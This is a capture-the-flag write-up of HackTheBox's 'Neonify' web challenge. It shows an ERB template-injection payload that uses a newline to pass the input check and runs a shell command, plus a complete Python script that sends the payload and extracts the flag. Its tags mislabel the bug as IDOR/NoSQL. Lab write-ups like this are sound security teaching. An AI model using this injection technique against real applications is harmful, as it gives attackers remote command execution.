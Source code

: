 ```yaml
---
title: HackTheBox -- Neonify Writeup
date: 2025-08-28 00:00:00 +0800
categories: [web challenges]
tags: [IDOR,NoSQL]
image:
    path: images/hackthebox.png
---
```

# HackTheBox — Neonify [Easy]

In this write-up, we will solve the **Neonify** challenge from HackTheBox. The goal is to analyze the web application, identify its weaknesses, and use them to gain command execution in order to retrieve the flag. Along the way, we will break down each step of the exploitation process to clearly demonstrate how the vulnerability can be discovered and leveraged.

Let’s navigate to the website.

![image.png](../images/neonify.png)

Now let’s see the source code of the application.

![image.png](../images/neonify%201.png)

> Notice that we found that our input is used in a template engine named ERB.
> 

Now let’s exploit the **template injection**.

```python
SecretRemo%0a<%25=+`cat+flag.txt`+%25>
```

![image.png](../images/neonify%202.png)

> As we see we managed to get the flag!
> 

Now let’s write the exploitation script for the challenge

```python
import requests
import re

target = input("Please Enter Target (ex: 127.0.0.1:1337): ")
url = f"http://{target}/"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

data = "neon=SecretRemo%0a<%25=+`cat+flag.txt`+%25>"

def exploit():
    try:
        r = requests.post(url, headers=headers, data=data, timeout=5)

        match = re.search(r"(HTB\{.*?\})", r.text)
        if match:
            print("[+] FLAG:", match.group(1))
        else:
            print("[!] Flag not found in response")
    except requests.RequestException as e:
        print(f"[!] Request failed: {e}")

if __name__ == "__main__":
    exploit()

```

![image.png](../images/neonify%203.png)

Now let’s go and run the script to get the flag!

![image.png](../images/neonify%204.png)

> As we see we got the flag!
> 

🎯 Conclusion

By following the exploitation path and carefully analyzing the challenge, we were able to identify the vulnerability and successfully obtain the flag. This highlights the importance of secure coding practices and the risks of improper input handling in web applications.

*Written by **SecretRemo*** ✍️

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT